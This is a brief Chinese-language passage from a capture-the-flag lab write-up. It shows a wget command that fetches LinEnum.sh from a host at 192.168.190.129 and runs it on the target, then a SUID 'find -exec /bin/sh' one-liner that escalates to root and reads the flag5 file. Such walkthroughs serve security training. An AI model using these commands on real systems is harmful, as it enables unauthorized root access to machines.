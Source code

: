 在目标机上下载LineEnumh后执行

```bash
wget http://192.168.190.129:8080/LinEnum.sh
bash LinEnum.sh
```

发现find可以利用

![image-20210903112212502](/assets/img/image-20210903112212502.png)

执行

```bash
find . -exec /bin/sh \; -quit
```

查看权限成功提权

![image-20210903112327340](/assets/img/image-20210903112327340.png)

查看/root下flag文件，获得flag5

![image-20210903112449541](/assets/img/image-20210903112449541.png)

